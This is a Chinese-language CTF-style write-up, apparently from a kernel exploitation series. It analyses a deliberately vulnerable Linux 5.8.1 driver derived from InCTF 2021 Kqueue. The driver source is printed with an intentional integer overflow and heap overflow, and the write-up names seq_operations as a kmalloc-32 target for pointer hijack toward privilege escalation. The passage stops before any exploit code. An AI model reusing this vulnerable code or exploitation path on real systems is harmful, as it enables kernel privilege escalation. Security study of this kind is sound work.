







# 【pwn4kernel】Kernel Heap Overflow技术分析

## 1. 测试环境

**测试版本**：Linux-5.8.1 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.8.1/01/bzImage)

笔者测试的内核版本是 `Linux (none) 5.8.1 #1 SMP Fri Jan 9 13:42:16 CST 2026 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_MEMCG`、`CONFIG_HARDENED_USERCOPY`选项。开启`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.8.1/01/.config)。

**保护机制**：SMEP/SMAP/KPTI

**测试驱动程序**：本驱动程序基于**InCTF 2021 - Kqueue**题目修改而成。通过将存在漏洞的`memcpy`调用替换为`__copy_from_user`，并开启SMAP、SMEP与KPTI保护，构建了一个强化的内核漏洞利用测试环境。关键在于，虽然使用了`__copy_from_user`，但未对用户控制的拷贝长度进行校验，因此**堆溢出漏洞依然存在**。测试环境配置了`nokaslr`，故利用过程无需内核地址泄露步骤。本案例旨在研究在绕过上述现代防护机制（SMAP/SMEP/KPTI）的条件下，如何通过精确的堆布局操控与内核态ROP链构造，实现权限提升。

驱动源码如下：

```c
/* Generic header files */

#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/device.h>
#include <linux/mutex.h>
#include <linux/fs.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/miscdevice.h>

MODULE_AUTHOR("amritabi0s1@gmail.com");
MODULE_DESCRIPTION("A module to save all your beloved queues");
MODULE_LICENSE("GPL");

#define CREATE_KQUEUE 0xDEADC0DE
#define EDIT_KQUEUE   0xDAADEEEE
#define DELETE_KQUEUE 0xBADDCAFE
#define SAVE          0xB105BABE

#define INVALID      -1
#define NOT_EXISTS   -3
#define MAX_QUEUES    5
#define MAX_DATA_SIZE 0x20

typedef unsigned long long ull;
ull queueCount = 0;

/* We need this to mitigate rat races */

static DEFINE_MUTEX(operations_lock);

static int reg;
static long kqueue_ioctl(struct file *file, unsigned int cmd,
			 unsigned long arg);
static struct file_operations kqueue_fops = {.unlocked_ioctl = kqueue_ioctl };

typedef struct {
	uint16_t data_size;
	uint64_t queue_size;	/* This needs to handle larger numbers */
	uint32_t max_entries;
	uint16_t idx;
	char *data;
} queue;

/* Every kqueue has it's own entries */

typedef struct queue_entry queue_entry;

struct queue_entry {
	uint16_t idx;
	char *data;
	queue_entry *next;
};

/* I wish I could go limitless */

queue *kqueues[MAX_QUEUES] = { (queue *) NULL };

/* Boolean array to make sure you dont save queue's over and over again */

bool isSaved[MAX_QUEUES] = { false };

/* This is how a typical request looks */

typedef struct {
	uint32_t max_entries;
	uint16_t data_size;
	uint16_t entry_idx;
	uint16_t queue_idx;
	char *data;
} request_t;

/* commiting errors is not a crime, handling them incorrectly is */

static long err(char *msg)
{
	printk(KERN_ALERT "%s\n", msg);
	return -1;
}

static noinline long create_kqueue(request_t request);
static noinline long delete_kqueue(request_t request);
static noinline long edit_kqueue(request_t request);
static noinline long save_kqueue_entries(request_t request);

/* Initialize a flag to check for existence of stuff */
bool exists = false;

/* For Validating pointers */
static noinline void *validate(void *ptr)
{
	if (!ptr) {
		mutex_unlock(&operations_lock);
		err("[-] oops! Internal operation error");
	}
	return ptr;
}

struct miscdevice kqueue_device = {
	.minor = MISC_DYNAMIC_MINOR,
	.name = "kqueue",
	.fops = &kqueue_fops,
};
```

```c
/* Generic header files */
// code from InCTF2021 - Kqueue
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/device.h>
#include <linux/mutex.h>
#include <linux/fs.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include "binary.h"

#pragma GCC push_options
#pragma GCC optimize ("O0")

static noinline long kqueue_ioctl(struct file *file, unsigned int cmd,
				  unsigned long arg)
{

	long result;

	request_t request;

	mutex_lock(&operations_lock);

	if (copy_from_user((void *)&request, (void *)arg, sizeof(request_t))) {
		err("[-] copy_from_user failed");
		goto ret;
	}

	switch (cmd) {
	case CREATE_KQUEUE:
		result = create_kqueue(request);
		break;
	case DELETE_KQUEUE:
		result = delete_kqueue(request);
		break;
	case EDIT_KQUEUE:
		result = edit_kqueue(request);
		break;
	case SAVE:
		result = save_kqueue_entries(request);
		break;
	default:
		result = INVALID;
		break;
	}
ret:
	mutex_unlock(&operations_lock);
	return result;
}

static noinline long create_kqueue(request_t request)
{
	long result = INVALID;

	if (queueCount > MAX_QUEUES)
		err("[-] Max queue count reached");

	/* You can't ask for 0 queues , how meaningless */
	if (request.max_entries < 1)
		err("[-] kqueue entries should be greater than 0");

	/* Asking for too much is also not good */
	if (request.data_size > MAX_DATA_SIZE)
		err("[-] kqueue data size exceed");

	/* Initialize kqueue_entry structure */
	queue_entry *kqueue_entry;

	/* Check if multiplication of 2 64 bit integers results in overflow */
	ull space = 0;
	if (__builtin_umulll_overflow
	    (sizeof(queue_entry), (request.max_entries + 1), &space) == true)
		err("[-] Integer overflow");

	ull queue_size = 0;
	if (__builtin_saddll_overflow(sizeof(queue), space, &queue_size) ==
	    true)
		err("[-] Integer overflow");

	/* Total size should not exceed a certain limit */
	if (queue_size > sizeof(queue) + 0x10000)
		err("[-] Max kqueue alloc limit reached");

	/* All checks done , now call kzalloc */
	queue *queue = validate((char *)kmalloc(queue_size, GFP_KERNEL));

	/* Main queue can also store data */
	queue->data = validate((char *)kmalloc(request.data_size, GFP_KERNEL));

	/* Fill the remaining queue structure */
	queue->data_size = request.data_size;
	queue->max_entries = request.max_entries;
	queue->queue_size = queue_size;

	/* Get to the place from where memory has to be handled */
	kqueue_entry =
	    (queue_entry *) ((uint64_t) (queue + (sizeof(queue) + 1) / 8));

	/* Allocate all kqueue entries */
	queue_entry *current_entry = kqueue_entry;
	queue_entry *prev_entry = current_entry;

	uint32_t i = 1;
	for (i = 1; i < request.max_entries + 1; i++) {
		if (i != request.max_entries)
			prev_entry->next = NULL;
		current_entry->idx = i;
		current_entry->data = (char *)(validate((char *)
							kmalloc
							(request.data_size,
							 GFP_KERNEL)));

		/* Increment current_entry by size of queue_entry */
		current_entry += sizeof(queue_entry) / 16;

		/* Populate next pointer of the previous entry */
		prev_entry->next = current_entry;
		prev_entry = prev_entry->next;
	}

	/* Find an appropriate slot in kqueues */
	uint32_t j = 0;
	for (j = 0; j < MAX_QUEUES; j++) {
		if (kqueues[j] == NULL)
			break;
	}

	if (j > MAX_QUEUES)
		err("[-] No kqueue slot left");

	/* Assign the newly created kqueue to the kqueues */
	kqueues[j] = queue;
	queueCount++;
	result = 0;
	return result;
}

static noinline long delete_kqueue(request_t request)
{
	/* Check for out of bounds requests */
	if (request.queue_idx > MAX_QUEUES)
		err("[-] Invalid idx");

	/* Check for existence of the request kqueue */
	queue *queue = kqueues[request.queue_idx];
	if (!queue)
		err("[-] Requested kqueue does not exist");

	kfree(queue);
	memset(queue, 0, queue->queue_size);
	kqueues[request.queue_idx] = NULL;
	return 0;
}

static noinline long edit_kqueue(request_t request)
{
	/* Check the idx of the kqueue */
	if (request.queue_idx > MAX_QUEUES)
		err("[-] Invalid kqueue idx");

	/* Check if the kqueue exists at that idx */
	queue *queue = kqueues[request.queue_idx];
	if (!queue)
		err("[-] kqueue does not exist");

	/* Check the idx of the kqueue entry */
	if (request.entry_idx > queue->max_entries)
		err("[-] Invalid kqueue entry_idx");

	/* Get to the kqueue entry memory */
	queue_entry *kqueue_entry =
	    (queue_entry *) (queue + (sizeof(queue) + 1) / 8);

	/* Check for the existence of the kqueue entry */
	exists = false;
	uint32_t i = 1;
	for (i = 1; i < queue->max_entries + 1; i++) {

		/* If kqueue entry found , do the necessary */
		if (kqueue_entry && request.data && queue->data_size) {
			if (kqueue_entry->idx == request.entry_idx) {
			    if (__copy_from_user(kqueue_entry->data, request.data, queue->data_size)) {
					return -EIO;
				}
				validate(kqueue_entry->data);
				exists = true;
			}
		}
		kqueue_entry = kqueue_entry->next;
	}

	if (request.entry_idx == 0 && kqueue_entry && request.data
	    && queue->data_size) {
	    if (__copy_from_user(queue->data, request.data, queue->data_size)) {
			return -EIO;
		}
		validate(queue->data);
		return 0;
	}

	if (!exists)
		return NOT_EXISTS;
	return 0;
}

/* Now you have the option to safely preserve your precious kqueues */
static noinline long save_kqueue_entries(request_t request)
{

	/* Check for out of bounds queue_idx requests */
	if (request.queue_idx > MAX_QUEUES)
		err("[-] Invalid kqueue idx");

	/* Check if queue is already saved or not */
	if (isSaved[request.queue_idx] == true)
		err("[-] Queue already saved");

	queue *queue = validate(kqueues[request.queue_idx]);

	/* Check if number of requested entries exceed the existing entries */
	if (request.max_entries < 1)
		err("[-] Invalid entry count");

	if (request.max_entries > queue->max_entries)
		err("[-] Invalid entry count");

	/* Allocate memory for the kqueue to be saved */
	char *new_queue =
	    validate((char *)kzalloc(queue->queue_size, GFP_KERNEL));

	/* Each saved entry can have its own size */
	if (request.data_size > queue->queue_size)
		err("[-] Entry size limit exceed");

	/* Copy main's queue's data */
	if (queue->data && request.data_size) {
        if (__copy_from_user(new_queue, queue->data, request.data_size)) {
            return -EIO;
        }
        validate(new_queue);
	}
	else
		err("[-] Internal error");
	new_queue += queue->data_size;

	/* Get to the entries of the kqueue */
	queue_entry *kqueue_entry =
	    (queue_entry *) (queue + (sizeof(queue) + 1) / 8);

	/* copy all possible kqueue entries */
	uint32_t i = 0;
	for (i = 1; i < request.max_entries + 1; i++) {
		if (!kqueue_entry || !kqueue_entry->data)
			break;
		if (kqueue_entry->data && request.data_size){
            if (__copy_from_user(new_queue, kqueue_entry->data, request.data_size)) {
                return -EIO;
            }
            validate(new_queue);
		}
		else
			err("[-] Internal error");
		kqueue_entry = kqueue_entry->next;
		new_queue += queue->data_size;
	}

	/* Mark the queue as saved */
	isSaved[request.queue_idx] = true;
	return 0;
}

#pragma GCC pop_options

static int __init init_kqueue(void)
{
	mutex_init(&operations_lock);
	reg = misc_register(&kqueue_device);
	if (reg < 0) {
		mutex_destroy(&operations_lock);
		err("[-] Failed to register kqueue");
	}
	return 0;
}

static void __exit exit_kqueue(void)
{
	misc_deregister(&kqueue_device);
}

module_init(init_kqueue);
module_exit(exit_kqueue);
```

## 2. 漏洞机制

### 2-1. 驱动功能架构概述

#### 2-1-1. 核心数据结构层次

该内核模块实现了一个名为"kqueue"的队列管理虚拟设备，通过Linux misc字符设备框架注册为`/dev/kqueue`。用户态程序通过`ioctl`系统调用与驱动交互，支持队列的创建、编辑、删除和保存功能。驱动采用两级数据结构设计：

```c
/* 队列控制块（Queue Control Block）*/
typedef struct {
    uint16_t data_size;      /* 每个条目的数据缓冲区大小（0-32字节）*/
    uint64_t queue_size;     /* 队列结构总内存大小（包含元数据）*/
    uint32_t max_entries;    /* 队列支持的最大条目数（1-4294967295）*/
    uint16_t idx;            /* 队列在全局数组中的索引（0-4）*/
    char *data;              /* 指向队列主数据缓冲区的指针 */
} queue;

/* 队列条目节点（Queue Entry Node）*/
struct queue_entry {
    uint16_t idx;            /* 条目在队列中的序号（1-max_entries）*/
    char *data;              /* 指向条目专属数据缓冲区的指针 */
    queue_entry *next;       /* 指向链表中下一个条目的指针 */
};
```

**全局数据结构**：

```c
#define MAX_QUEUES    5        /* 最大队列数量 */
#define MAX_DATA_SIZE 0x20     /* 每个条目的最大数据大小 */

queue *kqueues[MAX_QUEUES] = { NULL };  /* 全局队列数组 */
bool isSaved[MAX_QUEUES] = { false };   /* 队列保存状态标记 */
ull queueCount = 0;                     /* 当前队列计数 */
static DEFINE_MUTEX(operations_lock);   /* 操作互斥锁 */
```

#### 2-1-2. 系统调用接口规范

驱动通过四个`ioctl`命令码提供完整功能接口：

| 命令码     | 符号常量      | 功能描述     | 关键参数                          |
| ---------- | ------------- | ------------ | --------------------------------- |
| 0xDEADC0DE | CREATE_KQUEUE | 创建新队列   | max_entries, data_size            |
| 0xDAADEEEE | EDIT_KQUEUE   | 编辑队列条目 | queue_idx, entry_idx, data        |
| 0xBADDCAFE | DELETE_KQUEUE | 删除队列     | queue_idx                         |
| 0xB105BABE | SAVE          | 保存队列数据 | queue_idx, max_entries, data_size |

**请求数据结构**：

```c
typedef struct {
    uint32_t max_entries;    /* CREATE/SAVE: 最大条目数 */
    uint16_t data_size;      /* CREATE/SAVE: 数据缓冲区大小 */
    uint16_t entry_idx;      /* EDIT: 目标条目索引 */
    uint16_t queue_idx;      /* EDIT/DELETE/SAVE: 目标队列索引 */
    char *data;              /* EDIT: 用户数据缓冲区指针 */
} request_t;
```

#### 2-1-3. 内存分配策略

CREATE_KQUEUE操作采用分层内存分配策略，分为两个主要阶段：

**第一阶段：队列控制结构与节点数组分配**



**第二阶段：数据缓冲区独立分配**



**正常分配计算公式**：
设队列控制块大小$$S_q = 32$$字节，条目节点大小$$S_e = 24$$字节，用户指定$$n$$个条目，每个条目数据大小$$d$$字节。

连续内存区域大小：

$$
M_{\text{连续}} = S_q + (n+1) \times S_e
$$

独立数据缓冲区总大小：

$$
M_{\text{数据}} = (n+1) \times d
$$

**内存组织特点**：

1. **连续内存区域**：包含`queue`控制块和所有`queue_entry`节点，保证局部性
2. **独立数据缓冲区**：每个数据缓冲区独立分配，避免大块连续内存需求
3. **链表连接**：`queue_entry`节点通过`next`指针形成单向链表
4. **指针引用**：`queue->data`和每个`entry->data`指向独立分配的缓冲区

### 2-2. 整数溢出漏洞原理

#### 2-2-1. 算术异常触发机制

在`create_kqueue()`函数中，存在两处算术运算异常：

```c
/* 第一处：无符号整数乘法溢出检测 */
ull space = 0;
if (__builtin_umulll_overflow(sizeof(queue_entry), (request.max_entries + 1), &space) == true)
    err("[-] Integer overflow");

/* 第二处：有符号整数加法溢出检测 */
ull queue_size = 0;
if (__builtin_saddll_overflow(sizeof(queue), space, &queue_size) == true)
    err("[-] Integer overflow");
```

**异常触发条件**：
当用户指定`request.max_entries = 0xFFFFFFFF`（4294967295）时：

1. **32位无符号加法回绕**：

    ```
    0xFFFFFFFF + 1 = 0x100000000
    由于32位表示限制，结果回绕为0x00000000
    ```

2. **乘法运算归零**：

    ```
    space = sizeof(queue_entry) × 0 = 0
    ```

3. **总大小计算错误**：
    ```
    queue_size = sizeof(queue) + 0 = 32
    ```

**数学形式化**：
设用户输入$$n = 2^{32} - 1$$，$$S_e = 24$$，$$S_q = 32$$。

1. 计算条目数偏移：

    $$
    t = (n + 1) \mod 2^{32} = 0
    $$

2. 计算条目总内存：

    $$
    m = S_e \times t = 24 \times 0 = 0
    $$

3. 计算队列总内存：
    $$
    M = S_q + m = 32 + 0 = 32
    $$

#### 2-2-2. 内存分配不一致性

算术异常导致内存分配与元数据记录不一致：



**关键问题**：

1. **元数据不一致**：`queue->queue_size`字段记录为32，但代码假设其后是`queue_entry`数组
2. **指针运算错误**：后续通过`queue + (sizeof(queue) + 1) / 8`计算`queue_entry`起始地址
3. **链表遍历异常**：遍历不存在的`queue_entry`数组可能导致非法内存访问

#### 2-2-3. 验证函数逻辑缺陷

`validate()`函数存在设计缺陷，无法有效阻止异常状态继续执行：

```c
static noinline void *validate(void *ptr)
{
    if (!ptr) {
        mutex_unlock(&operations_lock);
        err("[-] oops! Internal operation error");
        /* 关键：缺少错误返回语句 */
    }
    return ptr;  /* 即使ptr为NULL也返回NULL */
}
```

**缺陷分析**：

1. **错误处理不完整**：检测到空指针时仅打印日志，未终止操作
2. **控制流继续**：函数返回NULL，但调用方可能未检查返回值
3. **竞争条件风险**：提前释放互斥锁但不终止操作
4. **空指针解引用**：后续代码可能直接使用NULL指针

### 2-3. 堆缓冲区溢出漏洞

#### 2-3-1. 可控制拷贝溢出

在`save_kqueue_entries()`函数中，存在用户可控拷贝大小的堆缓冲区溢出：

```c
/* 步骤1：基于错误queue_size分配缓冲区 */
char *new_queue = validate((char *)kzalloc(queue->queue_size, GFP_KERNEL));

/* 步骤2：用户控制拷贝大小 */
if (__copy_from_user(new_queue, queue->data, request.data_size)) {
    return -EIO;
}
```

**溢出条件**：

1. **整数漏洞前提**：`queue->queue_size = 32`（由于算术异常）
2. **缓冲区分配**：`kzalloc(32, GFP_KERNEL)`分配kmalloc-32缓冲区
3. **用户可控参数**：`request.data_size`完全由用户控制
4. **大小不匹配**：当`request.data_size > 32`时发生溢出

**溢出数学模型**：
设目标缓冲区大小$$B_t = 32$$，用户指定拷贝大小$$B_c$$，溢出长度$$O$$为：

$$
O = \max(0, B_c - B_t)
$$

当`request.data_size = 40`（0x28）时：

$$
O = 40 - 32 = 8 \text{字节}
$$

#### 2-3-2. 内存污染机制

溢出操作导致相邻内存区域被非预期修改：

```
溢出前内存布局：
+----------------+ 0x00-0x1F: new_queue缓冲区 (32字节)
+----------------+ 0x20-0x3F: 相邻结构体A
+----------------+ 0x40-0x5F: 相邻结构体B

溢出操作：
__copy_from_user(new_queue, source, 40)

溢出后内存布局：
+----------------+ 0x00-0x1F: new_queue填充数据
+----------------+ 0x20-0x27: 结构体A前8字节被覆盖
+----------------+ 0x28-0x3F: 结构体A剩余24字节
+----------------+ 0x40-0x5F: 结构体B（未受影响）
```

**污染影响**：

1. **结构体字段破坏**：相邻结构体的关键字段被修改
2. **控制流转移**：如覆盖函数指针可实现控制流转移
3. **数据泄露**：可能泄露相邻内存的敏感信息
4. **系统不稳定**：结构体字段破坏可能导致内核崩溃

### 2-4. 可用kmalloc-32目标结构体

#### 2-4-1. seq_operations结构体

`seq_operations`是proc文件系统操作的核心结构体，大小为32字节，完美匹配kmalloc-32缓存：

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```

**关键特性**：

1. **大小匹配**：32字节，分配在kmalloc-32缓存
2. **函数指针**：包含4个可直接调用的函数指针
3. **易于触发**：通过`/proc`文件系统操作可稳定触发调用
4. **广泛存在**：多个proc文件使用此结构体
5. **生命周期可控**：通过文件描述符控制结构体的分配和释放

**分配方式**：

```c
/* 通过打开proc文件创建seq_operations */
int fd = open("/proc/self/stat", O_RDONLY);
/* 内核分配seq_operations结构体 */
```

**内存布局**：

```
seq_operations结构体布局（32字节）：
